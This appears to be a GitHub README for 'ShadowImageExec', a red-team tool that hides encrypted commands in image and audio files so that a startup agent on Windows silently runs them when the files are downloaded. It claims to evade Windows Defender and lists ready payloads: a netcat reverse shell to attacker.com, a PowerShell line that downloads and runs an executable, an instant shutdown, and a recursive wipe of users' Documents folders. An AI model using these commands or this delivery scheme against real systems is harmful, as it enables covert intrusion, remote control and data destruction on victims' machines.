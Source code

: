 ShadowImageExec – StegoCrypto Auto Execution via Innocent Media Files

     New Red Team Attack Technique
     Created by: Kamron Saparbayev
     Codename: mai-attack
     Year: 2025
---
What is this?

ShadowImageExec is an advanced Red Team attack technique that enables the automatic execution of commands hidden within innocent-looking media files such as .png, .mp3, or .mp4.

The core idea is simple yet powerful: embed an encrypted command inside a media file and allow a passive background agent to automatically detect and execute it as soon as the file is downloaded to the target system — without any user interaction.
---

How the Attack Works
```text
Attacker (White-Hat or Black-Hat)
        │
        ├─▶ embed-stego.py
        │     ↓
        │  Encrypted Payload (exec:...)
        │     ↓
        └─▶ Sent via Telegram
              ↓
          Target Device (Windows)
              ↓
     danger.exe (in Startup folder)
              ↓
     Watches Downloads & Desktop
              ↓
   File arrives → Decrypt → Execute
```
---
As soon as the user downloads the file (e.g., from Telegram), the pre-installed danger.exe detects the new file, decrypts the hidden payload, and executes the command silently using Python’s subprocess.run() function.

This attack is zero-click, highly stealthy, and has been proven to bypass antivirus software due to the use of encryption and steganography.
---

This tool has been tested against Windows Defender (fully updated) and was not detected under the following conditions:

--danger.exe was added to the Startup folder

--Stego payloads were delivered via Telegram and downloaded to the Desktop

--Payloads were AES-128 encrypted and embedded into .png or .mp3 files

--The agent passively monitored folders and only executed on trigger

---
Real-World Danger Examples

🔻 Shutdown
```bash
exec:shutdown /s /t 0
```
🔻 Reverse Shell (Netcat)
```bash
exec:nc -e cmd.exe attacker.com 4444
```
🔻 PowerShell Downloader
```bash
exec:powershell -c "iwr -uri http://attacker.com/x.exe -OutFile x.exe; ./x.exe"
```
🔻 File Wiper
```bash
exec:del /S /Q C:\Users\*\Documents
```
---
MITRE ATT&CK Mapping

Technique	| ID
Command Execution	| T1059
Data from Local File	| T1005
Obfuscated Files	| T1027
Startup Persistence	| T1547.001
---
 **Legal Disclaimer**

    This project is created for educational, Red Team, and CTF simulation purposes only.
    Any misuse of this tool is the responsibility of the user.
    Unauthorized use may be illegal and unethical.
